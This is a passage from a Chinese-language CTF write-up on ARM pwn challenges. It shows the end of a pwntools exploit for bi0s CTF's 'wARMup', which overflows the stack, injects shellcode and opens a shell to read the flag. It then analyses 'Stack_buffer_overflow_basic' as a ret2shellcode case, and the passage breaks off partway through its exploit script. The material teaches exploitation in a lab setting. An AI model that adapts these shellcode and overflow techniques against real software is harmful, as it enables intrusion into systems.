 ```
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif arch_num == 64:
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

if __name__ == "__main__":
    shellcode = asm(shellcraft.sh())
    sh = get_sh()
    payload  = 'A' * 0x64 + p32(wARMup.bss() + 0x300) + p32(0x0010364) + p32(wARMup.bss() + 0x300) + p32(0x0010530)
    sh.recvuntil('Welcome to bi0s CTF!')
    sh.sendline(payload)
    sh.sendline(p32(wARMup.bss() + 0x304) + shellcode)
    sh.interactive()
    flag=get_flag(sh)
    log.success('The flag is '+flag)
```

### <a class="reference-link" name="%E4%BB%A5Stack_buffer_overflow_basic%E4%B8%BA%E4%BE%8B"></a>以Stack_buffer_overflow_basic为例

#### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90"></a>程序分析

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-17-115344.png)

程序为ARM-32-dynamically linked程序。

使用IDA分析发现程序逻辑并不是十分明了的。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-17-115502.png)

但是试运行后发现程序逻辑较为明确，可以发现我们可以向栈上写入数据，且数据的起始地址程序会告诉我们，于是可以很明确的构造ret2shellcode。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-17-115702.png)

#### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import sys
context.log_level='debug'
context.arch='arm'

Stack_buffer_overflow_basic=ELF('./Stack_buffer_overflow_basic', checksec = False)

libc=ELF("/usr/arm-linux-gnueabihf/lib/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
```